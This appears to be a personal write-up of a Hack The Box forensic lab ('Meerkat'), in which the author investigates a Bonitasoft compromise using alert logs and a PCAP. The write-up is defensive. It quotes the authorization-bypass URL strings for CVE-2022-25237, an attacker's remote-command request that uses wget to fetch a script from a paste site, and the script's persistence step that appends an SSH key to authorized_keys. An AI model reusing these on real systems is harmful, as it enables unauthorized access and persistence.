 ```yaml
---
{"dg-publish":true,"permalink":"/portfolio/meerkat/"}
---
```


###### Summary 
 This Sherlock is focusing on working with Zeek logs and network analysis using PCAP.
 
[Link to this Sherlock on HTB Labs](https://app.hackthebox.com/sherlocks/552/play)

I used Timeline Explorer to process alert logs because I was working on Windows VM without WSL. Alternatively, jq could be used. For network analysis I used Wireshark, but Tshark was also required to answer one of the questions.
###### Challenge Scenario
"As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised."
###### Walkthrough
1. We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?
	While going through alert logs, I identified the following alert: `@{severity=1; signature=ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237); category=Attempted Administrator Privilege Gain; action=allowed; signature_id=2036818; gid=1; rev=1; metadata=}` at 2023-01-19T15:31:31.042Z

2. We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?
	There a lot of HTTP Post requests containing credentials of work accounts. This is a sign of a credential stuffing.

3. Does the vulnerability exploited have a CVE assigned - and if so, which one?: 
	Answer to question 3 can be found initially during alerts analysis.

4. Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?: 
	While reading about the exploit https://rhinosecuritylabs.com/application-security/cve-2022-25237-bonitasoft-authorization-bypass/ I found out that Bonita appends either “/i18ntranslation/../” or “;i18ntranslation” to the API URL to allow authorization to be bypassed. I correlated this info with pcap in Wireshark and found the answer.
	![Pasted image 20250212150133.png](/img/user/Pasted%20Images/Pasted%20image%2020250212150133.png)

5. How many combinations of usernames and passwords were used in the credential stuffing attack?: 
	Not difficult question yet I stuck here and had to address the official write-up. My Wireshark display filter `http.request.full_uri == "http://forela.co.uk:8080/bonita/loginservice" && !http` contains "install" was displaying 59 entries, but there were 3 repetitions in the very end which shouldn't have been counted. After additional research I concluded that the easiest way to find the solution to this question with a filters would be through Tshark command 
	`tshark -Y '(http.request.uri == "/bonita/loginservice") && (!http contains "install")' -r meerkat.pcap -T json | jq '.[]._source.layers.http."http.file_data"' | sort | uniq | wc -l`

6. Which username and password combination was successful?
	Looking through network logs we can see someone running a command whoami, it prompted me to follow HTTP stream and I was able to see there authentication attempt with positive response, namely status code 204.
	
	*The HTTP 204 No Content status code indicates that the server has successfully processed the request, but there is no content to send in the response body. This status code is particularly useful for operations that do not require the client to navigate away from the current page or display any new information. ![Pasted image 20250216102441.png](/img/user/Pasted%20Images/Pasted%20image%2020250216102441.png)

7. If any, which text sharing site did the attacker utilise?
	Continuing investigating Wireshark logs we are able to see a GET request with remote command execution which has a website URL that fits out description. 
	`GET/bonita/API/extension/rcep=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.`

8. Please provide the filename of the public key used by the attacker to gain persistence on our host.
	If we carefully follow the link above (using Browserling, for example) we can see a bash script that appends data from https://pastes.io/raw/hffgra4unv to `/home/ubuntu/.ssh/authorized_keys`. The data it retrieves is SSH key, and it is also seen that TA executes ssh restart after getting the key. Hence, we can conclude this is used to achieve persistence.

9. Can you confirm the file modified by the attacker to gain persistence?
	Answer can be found in the previous question.

10. Can you confirm the MITRE technique ID of this type of persistence mechanism?
	Account Manipulation: SSH Authorized Keys sub-technique is on MITRE website, which confirms the previous assumption.

 